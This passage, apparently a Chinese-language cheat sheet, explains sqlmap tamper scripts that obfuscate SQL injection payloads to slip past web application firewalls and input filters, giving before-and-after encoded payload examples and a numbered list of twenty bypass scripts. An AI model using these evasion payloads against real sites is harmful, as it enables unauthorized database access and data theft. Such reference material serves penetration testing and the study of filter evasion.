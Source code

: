使用脚本后： `1%23ngNvzqu%0AAND%23nVNaVoPYeva%0A%23lujYFWfv%0A9227=9227`

**apostrophenullencode.py**

适用数据库：ALL

作用：用非法双字节Unicode字符替换单引号

使用脚本前： `tamper("1 AND '1'='1")`

使用脚本后： `1 AND %00%271%00%27=%00%271`

**appendnullbyte.py**

适用数据库：ALL

作用：在有效载荷的结束位置加载null字节字符编码

使用脚本前： `tamper('1 AND 1=1')`

使用脚本后： `1 AND 1=1%00`

**chardoubleencode.py**

适用数据库：ALL

作用：对给定的payload全部字符使用双重url编码（不处理已经编码的字符）

使用脚本前： `tamper('SELECT FIELD FROM%20TABLE')`

使用脚本后： `%2553%2545%254C%2545%2543%2554%2520%2546%2549%2545%254C%2544%2520%2546%2552%254F%254D%2520%2554%2541%2542%254C%2545`

**unmagicquotes.py**

适用数据库：ALL

作用：用一个多字节组合 `%bf%27` 和末尾通用注释一起替换空格

使用脚本前： `tamper("1' AND 1=1")`

使用脚本后： `1%bf%27 AND 1=1--`

**randomcomments.py**

适用数据库：ALL

作用：用注释符分割sql关键字

使用脚本前： `tamper('INSERT')`

使用脚本后： `I/**/N/**/SERT`

#### 绕过脚本及汪释

01. apostrophemask.py  // 用UTF-8全角字符替换单引号字符
02. apostrophenullencode.py  // 用非法双子节unicode字符替换单引号字符
03. appendnullbyte.py  // 在payload末尾添加空字符编码
04. base64encode.py  // 对给定的payload全部字符使用Base64编码
05. between.py  // 分别用“NOT BETWEEN OAND #“替换大于号“>”，“BETWEEN # AND #” 替换等于号“=“
06. bluecoat.py  // 在SQL语句之后用有效的随机空白符替换空格符，随后用“LIKE”替换等于号“=”
07. chardoubleencode.py  // 对给定的payload全部字符使用双重URL编码（不处理已经编码的字符）
08. charencode.py  // 对给定的payload全部字付使用URL编码（不处理已经编码的子符）
09. charunicodeencode.py  // 对给定的payload的非编码字符使用UnicodeURL编码（不处理已经编码的字符）
10. concat2concatws.py  // 用“CONCAT WS(MID(CHAR(0), 0,0), A, B)”替换像“CONCAT(A,B)”的实例
11. equaltolike.py  // 用“LIKE"运算符替换全部等于号“=”
12. greatest.py  // 用“GREATEST”函数替换大于号“>”
13. halfversionedmorekeywords.py  // 在每个关键字之前添加MySQL注释
14. ifnull2ifisnull.py  // 用”IF(ISNULL(A), B, A)” 替换像 “IFNULL(A, B)” 的实例
15. lowercase.py  // 用小写值替换每个关键字字符
16. modsecurityversioned.py  // 用注释包围完整的查询
17. modsecurityzeroversioned.py  // 用当中带有数字零的注释包围完整的查询
18. multiplespaces.py  // 在SQL关键字周围添加多个空格
19. nonrecursivereplacement.py  // 用representations替换预定义SQL关键字，适用于过滤器
20. overlongutf8.py  // 转换给定的payload当中的所有字符